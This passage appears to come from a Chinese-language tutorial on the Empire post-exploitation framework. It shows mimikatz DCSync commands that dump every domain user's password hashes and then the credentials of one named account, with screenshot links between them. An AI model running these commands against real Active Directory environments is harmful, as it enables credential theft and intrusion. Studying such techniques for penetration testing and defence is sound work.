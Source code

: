 ### Empire

提取域内所有用户 hash 值：

```plain
usemodule credentials/mimikatz/dcsync_hashdump
```

[![](assets/1706090550-9f1e95446caaa4c7f016ab5f47659b74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101028-be46580e-ba5d-1.png)  
dump 特定帐户信息：

```plain
(Empire: 8GLZTYXR) > usemodule credentials/mimikatz/dcsync
(Empire: powershell/credentials/mimikatz/dcsync) > set user Al1ex
(Empire: powershell/credentials/mimikatz/dcsync) > execute
```

[![](assets/1706090550-3547693ae63a1dc167dc092b9f6df8da.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101058-d07f2d16-ba5d-1.png)
